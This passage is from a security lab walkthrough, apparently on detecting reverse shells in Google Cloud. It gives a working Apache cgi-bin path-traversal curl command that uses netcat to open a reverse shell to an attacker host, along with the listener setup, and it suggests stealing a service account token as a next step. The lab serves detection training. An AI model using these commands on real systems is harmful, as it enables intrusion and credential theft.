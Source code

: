 # 20. In the newly launched terminal window (the 2nd session), run the netcat server listening session:
```
nc -nlvp 8888
```
# 21. Run the following command to launch a reverse shell session from inside the Apache container:
```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; /tmp/nc ${LOCAL_IP} 8888 -e /bin/bash"
```
# This command will stay active and will block our current terminal. Do not interrupt it—this is normal behavior.

# 22. Toggle to the 2nd session, where you have just launched the nc -nlvp 8888 command.

# 23. In this window, ensure you see a message similar to the following:
```
Connection received on 10.8.0.9 46686
```
![image](https://github.com/Pruthvi360/linux_security/assets/107435692/f63b6af5-36d4-4a10-9485-809102dc49d7)

1. We run the curl command on the Attacker instance and connect to the Apache
2. Apache launches the /tmp/nc ${LOCAL_IP} 8888 -e /bin/bash command using /bin/sh shell.
3. The /tmp/nc ${LOCAL_IP} 8888 -e /bin/bash launches /bin/bash process
4. The /tmp/nc ${LOCAL_IP} 8888 -e /bin/bash command establishes connection to the Attacker instance and redirects input and output of the /bin/bash to the remote nc process, running on the Attacker's instance
5. The Attacker communicates with remote /bin/bash process interactively
The attacker can develop this attack further by launching possible scenarios such as:

Defacing the website
Running his/her own load in this container
Fetching the token of the Service Account and using it for exploiting the associated Google Cloud environment
All these scenarios are out of scope of the current lab.

Enter Ctrl+C in both SSH sessions to stop running commands.

Exit out of both SSH session windows by entering the "exit" command.

Note: You can also enter Cmnd + W to exit out of SSH windows.
Return to the Google Cloud Console.

Open the navigation menu and select Security > Security Command Center > Findings.

Set the time range to Last hour.

Ensure you see one (or two) findings for Reverse shell:
